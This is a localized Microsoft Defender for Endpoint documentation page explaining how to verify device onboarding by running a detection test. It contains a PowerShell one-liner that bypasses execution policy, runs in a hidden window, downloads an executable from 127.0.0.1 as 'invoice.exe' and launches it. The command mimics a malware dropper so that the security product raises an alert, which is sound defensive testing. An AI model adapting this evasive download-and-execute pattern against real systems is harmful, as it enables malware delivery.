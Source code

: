 ```yaml
---
title: 在新载入的 Microsoft Defender ATP 设备上运行检测测试
description: 在新载入的设备上运行检测脚本，以验证它是否正确载入到 Microsoft Defender ATP 服务。
keywords: 检测测试， 检测， powershell， 脚本， 验证， 载入， 适用于终结点载入的 microsoft defender， 客户端， 服务器， 测试
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 10154a734bb4c3d8b26fffb8618484aeb11f907a
ms.sourcegitcommit: 956176ed7c8b8427fdc655abcd1709d86da9447e
ms.translationtype: MT
ms.contentlocale: zh-CN
ms.lasthandoff: 03/23/2021
ms.locfileid: "51055916"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a><span data-ttu-id="39de5-104">在新载入的 Microsoft Defender 终结点设备上运行检测测试</span><span class="sxs-lookup"><span data-stu-id="39de5-104">Run a detection test on a newly onboarded Microsoft Defender for Endpoint device</span></span> 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


<span data-ttu-id="39de5-105">**适用于：**</span><span class="sxs-lookup"><span data-stu-id="39de5-105">**Applies to:**</span></span>
- <span data-ttu-id="39de5-106">受支持的 Windows 10 版本</span><span class="sxs-lookup"><span data-stu-id="39de5-106">Supported Windows 10 versions</span></span>
- <span data-ttu-id="39de5-107">Windows Server 2012 R2</span><span class="sxs-lookup"><span data-stu-id="39de5-107">Windows Server 2012 R2</span></span>
- <span data-ttu-id="39de5-108">Windows Server 2016</span><span class="sxs-lookup"><span data-stu-id="39de5-108">Windows Server 2016</span></span>
- <span data-ttu-id="39de5-109">Windows Server 版本 1803</span><span class="sxs-lookup"><span data-stu-id="39de5-109">Windows Server, version 1803</span></span>
- <span data-ttu-id="39de5-110">Windows Server，2019</span><span class="sxs-lookup"><span data-stu-id="39de5-110">Windows Server, 2019</span></span>
- [<span data-ttu-id="39de5-111">Microsoft Defender for Endpoint</span><span class="sxs-lookup"><span data-stu-id="39de5-111">Microsoft Defender for Endpoint</span></span>](https://go.microsoft.com/fwlink/?linkid=2154037)
- [<span data-ttu-id="39de5-112">Microsoft 365 Defender</span><span class="sxs-lookup"><span data-stu-id="39de5-112">Microsoft 365 Defender</span></span>](https://go.microsoft.com/fwlink/?linkid=2118804)

> <span data-ttu-id="39de5-113">想要体验 Microsoft Defender for Endpoint？</span><span class="sxs-lookup"><span data-stu-id="39de5-113">Want to experience Microsoft Defender for Endpoint?</span></span> [<span data-ttu-id="39de5-114">注册免费试用版。</span><span class="sxs-lookup"><span data-stu-id="39de5-114">Sign up for a free trial.</span></span>](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp?ocid=docs-wdatp-exposedapis-abovefoldlink)

<span data-ttu-id="39de5-115">在新载入的设备上运行以下 PowerShell 脚本，验证它是否正确报告给 Defender for Endpoint 服务。</span><span class="sxs-lookup"><span data-stu-id="39de5-115">Run the following PowerShell script on a newly onboarded device to verify that it is properly reporting to the Defender for Endpoint service.</span></span>

1. <span data-ttu-id="39de5-116">创建文件夹："C：\test-MDATP-test"。</span><span class="sxs-lookup"><span data-stu-id="39de5-116">Create a folder:  'C:\test-MDATP-test'.</span></span>
2. <span data-ttu-id="39de5-117">在设备上打开提升的命令行提示符并运行脚本：</span><span class="sxs-lookup"><span data-stu-id="39de5-117">Open an elevated command-line prompt on the device and run the script:</span></span>

   1. <span data-ttu-id="39de5-118">转到“**开始**”并键入“**cmd**”。</span><span class="sxs-lookup"><span data-stu-id="39de5-118">Go to **Start** and type **cmd**.</span></span>

   1. <span data-ttu-id="39de5-119">右键单击命令 **提示符** ，然后选择 **以管理员角色运行**。</span><span class="sxs-lookup"><span data-stu-id="39de5-119">Right-click **Command Prompt** and select **Run as administrator**.</span></span>

      ![指向"以管理员模式运行"的"窗口开始"菜单](images/run-as-admin.png)

3. <span data-ttu-id="39de5-121">在提示符下，复制并运行以下命令：</span><span class="sxs-lookup"><span data-stu-id="39de5-121">At the prompt, copy and run the following command:</span></span>

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

<span data-ttu-id="39de5-122">命令提示符窗口将自动关闭。</span><span class="sxs-lookup"><span data-stu-id="39de5-122">The Command Prompt window will close automatically.</span></span> <span data-ttu-id="39de5-123">如果成功，检测测试将标记为已完成，并且大约 10 分钟后，已载入设备的门户中将显示新警报。</span><span class="sxs-lookup"><span data-stu-id="39de5-123">If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded device in approximately 10 minutes.</span></span>

## <a name="related-topics"></a><span data-ttu-id="39de5-124">相关主题</span><span class="sxs-lookup"><span data-stu-id="39de5-124">Related topics</span></span>
- [<span data-ttu-id="39de5-125">载入 Windows 10 设备</span><span class="sxs-lookup"><span data-stu-id="39de5-125">Onboard Windows 10 devices</span></span>](configure-endpoints.md)
- [<span data-ttu-id="39de5-126">载入服务器</span><span class="sxs-lookup"><span data-stu-id="39de5-126">Onboard servers</span></span>](configure-server-endpoints.md)
- [<span data-ttu-id="39de5-127">Microsoft Defender 终结点载入问题疑难解答</span><span class="sxs-lookup"><span data-stu-id="39de5-127">Troubleshoot Microsoft Defender for Endpoint onboarding issues</span></span>](https://docs.microsoft.com/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)
